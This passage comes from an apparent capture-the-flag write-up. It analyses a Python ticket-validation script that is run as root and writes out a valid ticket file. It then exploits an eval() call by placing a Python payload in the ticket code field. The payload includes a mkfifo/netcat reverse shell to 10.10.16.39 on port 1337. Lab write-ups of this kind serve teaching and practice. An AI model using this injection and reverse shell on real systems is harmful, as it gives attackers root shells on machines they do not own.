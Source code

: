 ```python
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

The script reads a file with a ".md" extention and checks if the string ```# Skytrain Inc``` is in the first line of that file. Next it checks if the string ```## Ticket to ``` is on the second line.
The third line of the ".md" file needs to be ```__Ticket Code:__```. The fourth line needs to start with ```**``` and needs to contain a number. But not any number, it needs to be a number that you can
divide by 7 and get a remainder of 4. A simple modulus operation. "102" should work. If all those requirements are met, the script will output "Valid ticket" or otherwise "Invalid ticket".

Let's craft a valid ticket file first as a proof of concept.

```
# Skytrain Inc
## Ticket to 
__Ticket Code:__
** 102 **
```

![ticket-poc.png](ticket-poc.png)

As you can see, we provided a valid ticket file. You might notice that the "Destination" is empty. This is because I haven't provided one. This is not needed to make the exploit
work. But it looks nicer. So the next interation of the ticket file will have "development" in the "Ticket to" field.

[[Top]](#top)

# Privilege Escalation

But now we need to think about a way to exploit this. If you read the code again, you might notice the `eval()` function close to the end of the script. This function can be used to run
python commands, like a system call. And since we are allowed to run the script as root those system calls are also running as root.

A couple of lines earlier we can see that the script get the ticket code by splitting the fourth line at a "+" symbol. So, if we provide a python command, in the fourth line after the ticket code,
separated by a "+" sign, we should get code execution. Let's build a new ticket file with a python reverse-shell and start a netcat listener on port 1337.

```
# Skytrain Inc
## Ticket to development
__Ticket Code:__
** 102 + __import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.39 1337 >/tmp/f') **
```
